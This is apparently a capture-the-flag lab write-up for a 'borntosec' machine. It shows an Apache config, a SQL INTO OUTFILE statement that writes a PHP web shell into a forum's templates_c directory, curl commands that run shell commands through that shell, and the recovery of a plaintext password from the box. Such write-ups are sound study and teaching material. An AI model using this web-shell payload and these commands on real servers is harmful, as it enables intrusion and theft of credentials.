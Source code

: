 ```
    </IfModule>
    <IfModule mod_dir.c>
        DirectoryIndex index.php
    </IfModule>
</Directory>

Alias /webmail /usr/share/squirrelmail
<Directory /usr/share/squirrelmail>
    Options FollowSymLinks
        <IfModule mod_php5.c>
            php_flag register_globals off
        </IfModule>
        <IfModule mod_dir.c>
            DirectoryIndex index.php
        </IfModule>

        <Files configtest.php>
            order deny,allow
            deny from all
            allow from 127.0.0.1
        </Files>
    </Directory>
</VirtualHost>
```

From this we know where each services is locate on the server.

## websh
We know that `my little forum` contain a possible target of websh attack `templates_c`. Lets try that.

```
select "<?=`{$_REQUEST['_']}`?>" INTO OUTFILE  "/var/www/forum/templates_c/websh.php"
```

and now we can execute shell command via

```
curl --insecure  -X POST https://borntosec/forum/templates_c/websh.php -d "_=ls" > output.txt
```

we want to scan through as much as possible so by sending this command, we can search through the directory tree for any interesting dir
```
"_=ls -R / 2>/dev/null"
```

from the dir list we found an interesting file `/home/LOOKATME/password`

```
"_=cat /home/LOOKATME/password"
```

And we got 
```
lmezard:G!@M6f4Eatau{sF"
```
